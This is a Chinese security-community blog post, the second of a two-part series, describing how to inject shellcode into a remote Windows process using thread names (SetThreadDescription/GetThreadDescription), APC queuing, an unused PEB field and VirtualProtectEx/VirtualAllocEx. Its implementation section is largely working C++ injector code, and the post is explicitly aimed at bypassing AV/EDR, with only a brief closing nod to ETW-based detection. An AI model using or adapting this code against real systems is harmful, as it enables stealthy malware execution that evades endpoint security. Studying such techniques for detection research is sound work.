





# 高级进程注入之利用线程名和APC实现进程注入（下）-先知社区

> **来源**: https://xz.aliyun.com/news/18951  
> **文章ID**: 18951

---

# 前言

书接上文，高级进程注入之利用线程名和APC实现进程注入（上）：<https://xz.aliyun.com/news/18877>

上文中已经介绍了相关的API，本文会讲述利用线程名注入的实现细节，相比较传统的进程注入需要创建线程，这是一个不需要创建线程的新技术

# 介绍

通常，向一个进程的内存写入内容，需要我们在打开进程句柄时带有写权限，[PROCESS\_VM\_WRITE](https://learn.microsoft.com/en-us/windows/win32/procthread/process-security-and-access-rights)，但这可能被AV/EDR视为可疑指标，利用线程名注入允许我们实现远程写入，而无需写权限

我们需要的权限如下

```
HANDLE open_process(DWORD processId, bool isCreateThread)
{
    DWORD access = PROCESS_QUERY_LIMITED_INFORMATION // 想要读取远程进程的PEB地址，需要这个权限，后文会提到
        | PROCESS_VM_READ                            // 想要将返回的指针ppszThreadDescription赋值给PEB中未使用的字段，需要这个权限，后文会提到
        | PROCESS_VM_OPERATION                       // 想要设置内存区域为可执行，或者申请一个可执行内存区域，需要这个权限
        ;
    if (isCreateThread) {
        access |= PROCESS_CREATE_THREAD;             // 想要创建一个新线程，需要这个权限，有同学可能会问，之前不是说不需要创建线程，这里的创建线程是备选方案
    }
    return OpenProcess(access, FALSE, processId);
}
```

线程名注入有多种实现方式，其中效果最好的是通过APC将要执行的shellcode添加到远程线程队列中，但是如果我们想运行在旧版的Windows中，新式的APC相关的API不可用，并且无法找到可警报的线程，我们就需要额外创建线程，这个时候我们就需要PROCESS\_CREATE\_THREAD权限，这个权限会增加可疑指标，但是经过测试，也足够绕过一些AV/EDR了。

通常，申请的权限越少，就越难被检测，对于上述的情况，我们还可以调整一些技术的实现来规避一些权限，比如我们不使用PEB来存储指针的话，就可以不需要PROCESS\_QUERY\_LIMITED\_INFORMATION权限（后面会提到关于PEB的使用）

在注入过程中，我们会操作目标进程的线程，相应的我们需要的最小访问权限如下

```
    DWORD thAccess = SYNCHRONIZE;
    thAccess |= THREAD_SET_CONTEXT;             // 想要添加APC队列，需要这个权限
    thAccess |= THREAD_SET_LIMITED_INFORMATION; // 想要设置线程描述，需要这个权限
```

# 实现

只要是远程shellcode注入，总是包含：  
1、将我们的shellcode写入远程进程的内存区域  
2、为那片内存区域赋予可执行权限  
3、运行shellcode

我们看一下如何通过线程名实现远程内存分配和远程shellcode写入：

* 想要实现shellcode注入，首先得有一个正确的shellcode，上文中提到我们已经克服了空字节限制，只需要确保shellcode不会被目标进程的线程阻断就可以
* 我们需要选择目标进程的一个线程，用来设置线程名（线程名就是我们的shellcode），如果我们使用带有特殊用户APC的新型API，我们可以使用任何线程，如果我们使用老式API，我们必须确保选择的线程是可警报的
* 线程名被远程进程读取，因此shellcode将进入远程进程内存中，使用如下函数实现

```
HRESULT GetThreadDescription(
  [in]  HANDLE hThread,               // 远程进程的线程
  [out] PWSTR  *ppszThreadDescription // 用于存储线程名的内存首地址赋值给这个变量
);
```

目标进程的线程调用GetThreadDescription时，会自动在堆上分配一个指定大小的空间，内容就是线程名，间接实现了在远程进程分配内存以及将shellcode写入远程进程，并且内存是RW权限的，指向新缓冲区的指针被赋给变量ppszThreadDescription，我们需要提前在远程进程的内存中寻找一块指针大小的区域来存储指针变量ppszThreadDescription，有几个方式可以达到这个目的：

* 在远程进程内存中发现可写的区域
* 在远程进程的PEB中发现未使用的字段

本文优先使用PEB的方式，这个方式比较好检索，后面如果需要的话，再替换成方式1

通过查看PEB中的字段，我们可以发现

```
    [...]
    PVOID SparePointers[2];
    PVOID PatchLoaderData;
    PVOID ChpeV2ProcessInfo;

    ULONG AppModelFeatureState;
    ULONG SpareUlongs[2];    // 未使用的字段，可以用来存储我们的指针

    USHORT ActiveCodePage;
    USHORT OemCodePage;
    USHORT UseCaseMapping;
    USHORT UnusedNlsField;

    PVOID WerRegistrationData;
    PVOID WerShipAssertPtr;

    union
    {
        PVOID pContextData;  // WIN7中使用的
        PVOID pUnused;       // WIN10中使用的
        PVOID EcCodeBitMap;  // WIN11中使用的
    };
    [...]
```

字段SpareUlongs是一个好的候选，我们可以通过WinDbg dump PEB来获知它的实际偏移

```
lkd> dt nt!_PEB
   [...]
   +0x340 SpareUlongs      : [5] Uint4B
   [...]
```

PEB所属的内存区域本身就是RW权限，通过发现一个指针大小的未使用字段，我们可以用它存储远程调用GetThreadDescription后返回的内存地址指针，需要注意，在以后版本的Windows中，这个字段可能被用作其他用途，因此代码可能需要调整

首先，我们可以通过NtQuerySystemInformationProcess找到远程PEB的地址，代码如下

```
ULONG_PTR remote_peb_addr(IN HANDLE hProcess)
{
    PROCESS_BASIC_INFORMATION pi = { 0 };
    DWORD ReturnLength = 0;

    auto pNtQueryInformationProcess = reinterpret_cast<decltype(&NtQueryInformationProcess)>(
                                      GetProcAddress(GetModuleHandle("ntdll.dll"), "NtQueryInformationProcess"));
    if (!pNtQueryInformationProcess) {
        return NULL;
    }
    NTSTATUS status = pNtQueryInformationProcess(
        hProcess,
        ProcessBasicInformation,
        &pi,
        sizeof(PROCESS_BASIC_INFORMATION),
        &ReturnLength
    );
    if (status != STATUS_SUCCESS) {
        std::cerr << "NtQueryInformationProcess failed" << std::endl;
        return NULL;
    }
    return (ULONG_PTR)pi.PebBaseAddress;
}
```

有了PEB地址，再想找到字段SpareUlongs的偏移就容易多了

```
ULONG_PTR get_peb_unused(HANDLE hProcess)
{
    ULONG_PTR peb_addr = remote_peb_addr(hProcess);
    if (!peb_addr) {
        std::cerr << "Cannot retrieve PEB address!
";
        return NULL;
    }
    const ULONG_PTR UNUSED_OFFSET = 0x340;
    const ULONG_PTR remotePtr = peb_addr + UNUSED_OFFSET;
    return remotePtr;
}
```

至于设置线程名，我们有两个选择

* 方式1：对一个已存在的线程设置线程名
* 方式2：新创建一个线程，然后设置线程名

通过APC机制，让目标进程的线程调用GetThreadDescription，在我们设置线程名的线程上（GetThreadDescription需要2个参数，APC可以传递3个参数，足够了！）

注意

```
函数GetThreadDescription要求我们传入要读取线程名的线程句柄，其实我们可以传入不同的线程，不过传入的线程必须是目标进程上下文，也就是说注入器进程中的线程句柄是
无效的，这就需要我们复制远程线程的句柄，进一步而言，在我们打开远程进程时，需要PROCESS_DUP_HANDLE权限，前面说了，需要的权限越多，程序越可疑，所以我们尽量避免这个
方案，替代方案是使用伪句柄NtCurrentThread()
```

当我们选择方式1，对已存在的线程设置线程名，我们应该

* 使用新式的APC API，通过QUEUE\_USER\_APC\_FLAGS\_SPECIAL\_USER\_APC将我们的函数设置为特殊用户函数，或者找到一个可警告的线程，当它处于警告状态时，触发我们的函数
* 线程被打开至少带有THREAD\_SET\_CONTEXT | THREAD\_SET\_LIMITED\_INFORMATION权限

当我们选择方式2，创建新线程，并且我们使用旧版的APC API，我们必须确保线程是警告状态的，我们的函数才会执行，例如

* 在合法函数上创建一个挂起线程（例如kernel32中的Sleep、ExitThread），然后添加我们的函数到APC队列，恢复线程
* 在SleepEx函数上面创建一个线程，这个函数要求2个参数，第2个参数决定着Sleep是否是警告状态的，使用线程创建函数我们只能传递1个参数，此时问题出现了，但是深入研究可以发现，第二个参数是布尔类型，那意味着任何非零值都会被认为True，在x64调用约定中，第2个参数被传递通过RDX寄存器，也就是说，在调用的时候查看CPU中RDX寄存器的值，如果非零，就表示Sleep是警告状态的

剩下的步骤需要先调用APC才可以做，也就是说在调用APC前，我们在远程进程中是没有内存缓冲区的，也不知道内存缓冲区的地址，因此，先通过一个APC申请内存写入内存，再通过另一个APC运行shellcode，大致代码如下

```
wchar_t* pass_via_thread_name(HANDLE hProcess, const wchar_t* buf, const void* remotePtr)
{
    if (!remotePtr) {
        std::cerr << "Return pointer not set!
";
        return nullptr;
    }

    HANDLE hThread = find_thread(hProcess, THREAD_SET_CONTEXT | THREAD_SET_LIMITED_INFORMATION);

    if (!hThread || hThread == INVALID_HANDLE_VALUE) {
        std::cerr << "Invalid thread handle!
";
        return nullptr;
    }

    HRESULT hr = mySetThreadDescription(hThread, buf); // customized SetThreadDescription allows to pass a buffer with NULL bytes
    if (FAILED(hr)) {
        std::cout << "Failed to set thread desc" << std::endl;
        return nullptr;
    }
    if (!queue_apc_thread(hThread, GetThreadDescription, (void*)NtCurrentThread(), (void*)remotePtr, 0)) {
        CloseHandle(hThread);
        return nullptr;
    }
    // close thread handle
    CloseHandle(hThread);

    wchar_t* wPtr = nullptr;
    bool isRead = false;
    while ((wPtr = (wchar_t*)read_remote_ptr(hProcess, remotePtr, isRead)) == nullptr) {
        if (!isRead) return nullptr;
        Sleep(1000); // waiting for the pointer to be written;
    }
    std::cout << "Written to the Thread
";
    return wPtr;
}
```

上述函数完成后，我们已经在远程进程中创建了缓冲区，也有了指向它的指针，这意味着远程写入完成了，下面5个图展示了其工作原理











此时我们的shellcode已经处于远程进程的内存中，但它没有执行权限，位于堆上，接下来我们需要

* 在可执行内存区域发现一块没使用的区域，拷贝shellcode到这里（这是最隐蔽的方式，但实际上这很难实现）
* 分配一块新的可执行内存，然后将payload拷贝到那里
* 设置整个内存页的属性为RWX（需要注意，因为内存页在堆上，不能将其设置为RX，只能是RWX）

拷贝我们的shellcode从内存的堆到内存的其他区域可以使用ntdll.dll中的RtlMoveMemory，RtlMoveMemory有3个参数，APC可以传递4个参数，可以通过APC的方式，然而获取可执行内存区域是一个问题

提出的解决方式都不完美，但视情况而言足够绕过AV/EDR了

申请新的内存是最干净的选项，但是它有一些缺点，想要在远程进程申请内存，我们必须调用VirtualAllocEx，且带有RWX权限，这很可疑，通过APC远程调用VirtualAlloc是不可能的，因为VirtualAlloc有4个参数，APC只能传递3个

替代方案是使用已有的内存，然后修改它的属性为RWX，通过函数VirtualProtectEx，在远程进程中改变属性也很可疑，但优点是，相比上一个方式需要的步骤更少，此外，通过APC调用VirtualProtect存在和VirtualAlloc同样的问题

还可以通过ROP的方式执行VirtualAlloc/VirtualProtect，不过这个方式会产生额外的可疑指标，因为它需要使用操作线程的API，如SuspendThread/ResumeThread, SetThreadContext/GetThreadContext，根据我们的测试，这会产生更多的告警，导致被AV/EDR标记，需要注意，如果目标进程开启了DCP，申请内存会失败

```
DCP：全称Dynamic Code Policy
作用：控制能不能创建可执行内存页（或修改为可执行内存页），进程开启DCP后，不可以通过VirtualAlloc申请RWX的内存（或通过VirtualProtect修改为RWX）
绕过：对于开启DCP的进程，想要执行动态代码，比如声明Allow Dynamic Code
应用：UWP应用、Microsoft Edge、等

ACG：Arbitrary Code Guard
作用：阻止进程在运行时加载不受信任的代码，如Shellcode、DLL，对于Shellcode的防护是阻止内存页被修改为RX，即使是从RW到RX也不行，对于DLL的防护是不允许加载不受信任的DLL，不管加载方式是LoadLibrary还是Reflective DLL Injection，都会失效
绕过：只有通过JIT Manager向内核请求，才能生成可执行代码
应用：UWP应用、Microsoft Edge、等

CFG/CFI：Control Flow Guard / Control Flow Integrity
作用：防止攻击者通过ROP/JOP劫持控制流
绕过：跳转过程中利用合法函数入口
应用：UWP应用、Microsoft Edge、Microsoft Office、系统核心进程

像DEP/NX、ASLR我们都知道是Windows XP、Windows Vista开始引入的防护措施，上面三个是Windows 8、Windows 10开始引入的防护措施，是Win32 Process Mitigation Policy套件中的一部分，它们是Windows在进程级别的安全限制，UWP应用默认是强制启用的，Win32应用则是可选启用
```

考虑了全部的优缺点后，我们选择使用VirtualProtectEx的方式，代码中也会包含使用VirtualAllocEx的方式，一旦我们shellcode所处的区域变为可执行，我们就可以运行它，然后使用另外一个APC来执行（需要THREAD\_SET\_CONTEXT权限），另外，我们使用之前提到的函数RtlDispatchAPC作为一个代理来调用注入的代码，下述代码展示基本的实现

```
bool run_injected_v1(HANDLE hProcess, void* remotePtr, size_t payload_len)
{
    DWORD oldProtect = 0;
    if (!VirtualProtectEx(hProcess, remotePtr, payload_len, PAGE_EXECUTE_READWRITE, &oldProtect)) {
        std::cout << "Failed to protect!" << std::hex << GetLastError() << "
";
        return false;
    }
    HANDLE hThread = find_thread(hProcess, THREAD_SET_CONTEXT);
    if (!hThread || hThread == INVALID_HANDLE_VALUE) {
        std::cerr << "Invalid thread handle!
";
        return false;
    }
    bool isOk = false;
    auto _RtlDispatchAPC = GetProcAddress(GetModuleHandle("ntdll.dll"), MAKEINTRESOURCE(8)); //RtlDispatchAPC;
    if (_RtlDispatchAPC) {
        if (queue_apc_thread(hThread, _RtlDispatchAPC, shellcodePtr, 0, (void*)(-1))) {
            isOk = true;
        }
    }
    CloseHandle(hThread);
    return isOk;
}
```

扩展版本，包含其他可能性

```
bool run_injected(HANDLE hProcess, void* remotePtr, size_t payload_len)
{
    void* shellcodePtr = remotePtr;
#ifdef USE_EXISTING_THREAD
    HANDLE hThread = find_thread(hProcess, THREAD_SET_CONTEXT);
#else
    HANDLE hThread = create_alertable_thread(hProcess);
#endif
    if (!hThread || hThread == INVALID_HANDLE_VALUE) {
        std::cerr << "Invalid thread handle!
";
        return false;
    }
#ifdef USE_NEW_BUFFER
    shellcodePtr = VirtualAllocEx(hProcess, nullptr, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    if (!shellcodePtr) {
        std::cout << "Failed to allocate!" << std::hex << GetLastError() << "
";
        return false;
    }
    std::cout << "Allocated: " << std::hex << shellcodePtr << "
";
    void* _RtlMoveMemoryPtr = GetProcAddress(GetModuleHandle("ntdll.dll"), "RtlMoveMemory");
    if (!_RtlMoveMemoryPtr) {
        std::cerr << "Failed retrieving: _RtlMoveMemoryPtr
";
        return false;
    }
    if (!queue_apc_thread(hThread, _RtlMoveMemoryPtr, shellcodePtr, remotePtr, (void*)payload_len)) {
        return false;
    }
    std::cout << "Added RtlMoveMemory to the thread queue!
";
#else
    DWORD oldProtect = 0;
    if (!VirtualProtectEx(hProcess, shellcodePtr, payload_len, PAGE_EXECUTE_READWRITE, &oldProtect)) {
        std::cout << "Failed to protect!" << std::hex << GetLastError() << "
";
        return false;
    }
    std::cout << "Protection changed! Old: " << std::hex << oldProtect << "
";
#endif
    bool isOk = false;
    auto _RtlDispatchAPC = GetProcAddress(GetModuleHandle("ntdll.dll"), MAKEINTRESOURCE(8)); //RtlDispatchAPC;
    if (_RtlDispatchAPC) {
        std::cout << "Using RtlDispatchAPC
";
        if (queue_apc_thread(hThread, _RtlDispatchAPC, shellcodePtr, 0, (void*)(-1))) {
            isOk = true;
        }
    }
    else {
        if (queue_apc_thread(hThread, shellcodePtr, 0, 0, 0)) {
            isOk = true;
        }
    }
    if (isOk) std::cout << "Added to the thread queue!
";
#ifndef USE_EXISTING_THREAD
    ResumeThread(hThread);
#endif
    CloseHandle(hThread);
    return isOk;
}
```

测试期间发现，即使我们使用了潜在恶意的API VirtualProtectEx或VirtualAllocEx，也不足以让AV/EDR将我们的程序检测为恶意的

之前提到的获取可执行的内存区域，每个方式都有它的缺点，最直接的方式是在远程进程中调用VirtualProtectEx或VirtualAllocEx，这会引起一些可疑指标，另一个方式就是通过ROP调用VirtualProtectEx或VirtualAllocEx，不过这会引起更多的可疑指标，所以还是用直接的方式

带有RWX权限的内存是另外一个可疑指标，很容易被内存扫描器发现，不过通过一些技巧，我们也可以实现申请一个RW内存，然后修改它为RX，一旦我们的代码在远程进程中执行，我们就可以申请额外的内存（只要它没开启DCP）、拷贝shellcode、改变内存权限，如果需要，我们也可以进一步降低打开进程时的权限，正如本章开头讲述的

# 结语

当Windows中添加新的API，将它用于进程注入的想法由此诞生，想要实现有效的检测，我们必须时刻关注变化的东西（比如内存权限变化、等等），幸运的是，微软已经为反病毒产品提供了便利，目前大部分重要的API都可以被ETW监控

线程名调用使用了相对新的API，但是不可避免的使用了相对旧的内容，比如用于APC的API（这应该总是被视作潜在的威胁），类似的，对远程进程访问权限的操作也是一个可疑指标，即使有那么多可疑指标，但没有以传统的方式调用，也可以绕过绕过很多AV/EDR产品。
